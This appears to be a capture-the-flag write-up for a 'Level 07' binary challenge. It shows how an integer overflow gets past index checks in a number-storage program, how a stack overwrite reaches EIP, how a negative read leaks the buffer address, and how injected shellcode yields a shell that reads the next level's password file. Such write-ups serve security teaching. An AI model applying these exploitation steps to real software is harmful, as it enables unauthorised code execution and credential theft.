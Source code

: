 # Level 07

## Initial Context

- One file: `level07`

## Solving the Challenge

The program acts like a database for numbers.

Three commands are available:
- store: store a `value` at an `index`
- read: read a value from an `index`
- quit: exit the program

There is a few restriction on the `store` command:
- the index cannot be divisible by 3
- the index cannot start by `0xb7`

Since integers are stored, the buffer is actually an `int*`, meaning that the index is multiplied by 4 (from `char*` to `int*`).

To store a number divisible by 3, we need to abuse integers overflows.
The unsigned integer max value is `4294967295`, adding one overflows it back to `0`. Since the values are multiplied by 4, we need to divide it.

```bash
(4294967295 + 1) / 4 = 1073741824
```

By offsetting all divisible-by-3 values by `1073741824` will allows us to store values anywhere.

| number | with offset |
| --- | --- |
| 0 | 1073741824 |
| 3 | 1073741827 |
| 6 | 1073741830 |
| 9 | 1073741833 |

By checking the executable security, we know that there is a canary, but the `No eXecute` bit is also disabled.
A shell code is possible.

```bash
$ checksec --file /home/users/level07/level07
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

We can brute-force writing to the stack until we hit `EIP`. The source code is [available here (`cmd_write_and_quit`)](./Ressources/exploit.py).

```bash
$ for index in `seq 1 200`; do
    if ! python /tmp/exploit07.py write-and-quit $index | ./level07 2>&1 >/dev/null; then
        echo -e "index: $index";
    fi;
done
*** stack smashing detected ***:  terminated
Aborted (core dumped)
index: 106
Segmentation fault (core dumped)
index: 114
```

- At index 106, we hit the canary, *this can be ignored.*
- At index 114, we hit EIP.

We also need to know which address to redirect EIP to, for that we need to find the buffer's address.

For that, we can simply use the `read` at index `-9`.

> The buffer is loaded at $esp+0x24. <br />
> Since an integer is 4 bytes, we must divide 0x24 by 4 = 9. <br />
> And since we want to read backward, we must negate it.

```bash
$ ./level07
...
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956404
 Completed read command successfully
```

The buffer is located at `4294956404` or `0xffffd574`.

The code for the payload is [available here (`cmd_payload`)](./Ressources/exploit.py).

```bash
$ python /tmp/exploit07.py payload 4294956404 | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
whoami
level08
cat /home/users/level08/.pass
<flag>
```
